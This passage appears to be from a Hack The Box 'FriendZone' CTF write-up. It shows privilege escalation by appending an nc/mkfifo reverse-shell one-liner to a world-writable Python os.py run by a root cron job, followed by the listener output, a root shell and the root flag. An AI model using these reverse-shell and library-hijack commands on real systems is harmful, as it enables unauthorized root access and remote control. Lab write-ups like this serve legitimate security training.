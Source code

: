 The script was importing the OS library. Checking into the OS library permissions, it was under 777 perms. Very Nice, we try to add reverse shell command to this file.

##### Python Library Hijack

Read the article knows that we could alter Library file to do privilege escalation.

https://rastating.github.io/privilege-escalation-via-python-library-hijacking/

we create nc mkfifo reverse shell line from https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f
```

to the bottom of os.py file

```bash
cd /usr/lib/python2.7
echo 'system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f")' >> os.py
```

![[FriendZone-18.png]]

And wait for cron job execute and shell connected

```bash
nc -lnvp 4444
```

Check the root shell and capture content of root flag.

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/FriendZone]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.123] 53128
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt    
72b00b0aa9b3b982a9d730e04a2ddc77

```

![[FriendZone-17.png]]

